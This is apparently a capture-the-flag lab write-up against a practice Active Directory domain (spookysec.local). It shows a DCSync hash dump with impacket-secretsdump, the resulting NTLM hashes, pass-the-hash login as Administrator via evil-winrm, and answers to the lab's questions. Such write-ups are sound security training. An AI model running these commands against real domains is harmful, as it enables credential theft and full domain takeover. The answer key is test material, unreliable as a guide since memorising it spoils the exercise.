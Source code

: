 Let's Sync Up!

Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes

![Pasted image 20241115161032.png](Pasted%20image%2020241115161032.png)

Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.


```bash
impacket-secretsdump spookysec.local/backup:backup2517860@spookysec.local
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
```


```bash
evil-winrm -u Administrator -H "0e0363213e37b94221497260b0bcb4fc" -i 10.10.219.200
```


- What method allowed us to dump NTDS.DIT?
```bash
DRSUAPI
```

- What is the Administrators NTLM hash?
```bash
0e0363213e37b94221497260b0bcb4fc
```

- What method of attack could allow us to authenticate as the user without the password?
```bash
Pass The Hash
```

- Using a tool called Evil-WinRM what option will allow us to use a hash?
```bash
-H
```